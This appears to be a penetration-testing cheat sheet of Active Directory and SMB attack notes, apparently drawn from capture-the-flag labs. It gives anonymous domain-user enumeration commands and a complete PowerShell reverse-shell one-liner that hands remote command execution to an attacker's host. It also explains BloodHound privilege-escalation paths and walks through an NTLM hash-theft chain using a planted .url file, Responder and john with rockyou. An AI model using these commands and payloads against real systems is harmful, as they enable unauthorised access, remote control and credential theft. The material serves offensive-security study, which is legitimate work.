 **when enumerate smb shares and we have read access to ```IPC$``` share, We will be able to list the domain users as ```anonymous``` using different tools:**

1- ```lookupsid.py anonymous@<target ip>```<br>
#OR<br>
```lookupsid.py <username>@<target ip>``` #if we have valid creds <br>

2- ```crackmapexec smb <target ip> -u 'guest' -p '' --rid-brute```

----------------------------------------------------------------------------------------------------------------------

**if we do not know the domain name we could use ```crackmapexec``` to dump some cool information:**
```
crackmapexec smb <target ip>
                                                                  
SMB         10.10.250.17    445    VULNNET-BC3TCK1  [*] Windows 10.0 Build 17763 x64 (name:VULNNET-BC3TCK1) (domain:vulnnet.local) (signing:True) (SMBv1:False)
```
#OR 
Use ```enum4linux```:
```
enum4linux <target ip>
```
----------------------------------------------------------------------------------------------------------------------

**Powershell reverse shell**

```
$client = New-Object System.Net.Sockets.TCPClient('<OUR ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

----------------------------------------------------------------------------------------------------------------------

transitive object control in bloodhound
---

In BloodHound, "transitive object control" refers to an attack path where an attacker gains indirect control over a sensitive object (such as a user, group, or computer) by exploiting multiple relationships or permissions in Active Directory. This often results from a chain of misconfigurations where control over one object enables control over another, eventually leading to higher privileges, such as Domain Admin.<br>
Transitive control **occurs** when an attacker doesn’t have direct control over a target object but can use their control over another object to eventually gain access to the target.
For example:

    Attacker controls UserA.
    UserA has control over GroupB.
    GroupB contains a privileged user, like a Domain Admin.
    The attacker can then leverage control over UserA to modify GroupB and escalate privileges

----------------------------------------------------------------------------------------------------------------------


If we know there is activity in the share, we can try dropping a file to the share that will **force the user to authenticate to our server** when a user browses the share.


Using ```ntlm_theft.py``` to create a malicious ```.url``` file.
	
```
$ python3 ntlm_theft.py -g url -s 10.11.63.57 -f test
Created: test/test-(url).url (BROWSE TO FOLDER)
Created: test/test-(icon).url (BROWSE TO FOLDER)
Generation Complete.
```
Running responder to spin up a server that will respond to the authentication requests made.
	
```
$ sudo responder -I tun0
```
Uploading the generated file to the vuln share.
	
```
smb: \> cd onboarding\
smb: \onboarding\> put "test-(icon).url"
putting file test-(icon).url as \onboarding\test-(icon).url (0.4 kb/s) (average 0.3 kb/s)
```
After some time we get the hash.
<br>
Then we could use john to crack the hash.
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  
```








